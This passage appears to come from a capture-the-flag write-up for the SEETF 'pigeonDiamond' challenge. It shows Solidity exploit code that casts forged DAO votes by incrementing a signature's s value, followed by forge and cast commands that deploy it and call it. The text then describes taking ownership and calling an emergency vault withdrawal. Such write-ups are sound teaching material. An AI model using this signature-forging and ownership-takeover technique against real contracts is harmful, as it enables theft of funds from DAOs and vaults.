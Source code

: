 ```solidity
        // wait for 1 block, then call exploit2()
    }
    
    function exploit2() public {
        //(uint8 sig_v, bytes32 sig_r, bytes32 sig_s) = vm.sign(1337, keccak256(abi.encodePacked("kaiziron")));
        //console.log("v, r, s :");
        //console.log(sig_v);
        //console.logBytes32(sig_r);
        //console.logBytes32(sig_s);
        uint8 sig_v = uint8(27);
        bytes32 sig_r = bytes32(0x987faeb9c51477cccee2867916547eaabbdad70489f2269ccf92a9bbf9d35cc0);
        bytes32 sig_s = bytes32(0x3b1ae5d44573c6a572c750f6eef7ebba3430cb2c34afb0635cc5b08b91274b28);
        
        for (uint i; i < 100; ++i) {
            bytes memory sig = abi.encodePacked(sig_r, sig_s, sig_v);
            DAOFacet(pigeonDiamond).castVoteBySig(proposalId, true, sig);
            sig_s = bytes32(uint256(sig_s)+1);
        }
        // wait for 6 blocks after submission, then do these in EOA:
        //DAOFacet(pigeonDiamond).executeProposal(proposalId);
        //ExploitFacet(payable(pigeonDiamond)).becomeOwner();
        //PigeonVaultFacet(pigeonDiamond).emergencyWithdraw();
    }
}
```

First just deploy the exploit contract
```
# forge create ./src/Exploit.sol:Exploit --constructor-args 0x3e0B37296BE0147dCAee55A1968908AD2080c303 --private-key <key> --rpc-url http://win.the.seetf.sg:8551/ce9c5082-29fb-4a36-b0d0-65726fb741c2
[⠃] Compiling...
No files changed, compilation skipped
Deployer: 0x799046Bb7CF9c2308Ed77B0B068F1Cc697219127
Deployed to: 0x1786410938B5137639D090c6774faFB99CbBF892
Transaction hash: 0xd50dac3175e73670a86e1b5757cc0810ceaef22112de9e6d0bfc4bc117c85c8d
```

Then just call exploit1() :
```
cast send 0x1786410938B5137639D090c6774faFB99CbBF892 "exploit1()" --private-key <key> --rpc-url http://win.the.seetf.sg:8551/ce9c5082-29fb-4a36-b0d0-65726fb741c2
```

Then wait for 1 block and call exploit2() :
```
cast send 0x1786410938B5137639D090c6774faFB99CbBF892 "exploit2()" --private-key <key> --rpc-url http://win.the.seetf.sg:8551/ce9c5082-29fb-4a36-b0d0-65726fb741c2
```

Then wait for 6 blocks after the submission and execute the proposal and call becomeOwner() to become the owner of the diamond

